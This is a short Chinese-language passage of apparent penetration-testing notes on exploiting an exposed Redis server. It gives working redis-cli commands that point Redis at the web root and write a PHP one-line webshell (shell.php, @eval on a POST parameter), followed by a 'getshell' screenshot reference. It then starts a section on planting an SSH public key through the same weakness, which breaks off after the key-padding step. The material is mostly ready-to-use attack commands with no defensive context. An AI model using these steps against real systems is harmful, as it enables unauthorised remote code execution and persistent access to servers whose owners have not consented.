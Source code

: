 <u>*前置条件需要知道web服务器目录路径，并且有写入权限*</u>

<u>*可以通过目录扫描工具爆破web服务器获得信息*</u>

写入木马文件：

```sh
redis-cli -h 10.0.0.102 -p 6379
config set dir /var/www/html
config set dbfilename shell.php
set x "<?php @eval($_POST['cmd']);?>"
save
```

getshell:

![截图](pic/e67519ae244906878bba1fe4c6704a93.png)

###### 写入ssh公钥

生成公钥：`ssh-keygen -t rsa`

将公钥添加空白行：`(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt`  (添加空白行是为了将内容不混淆)
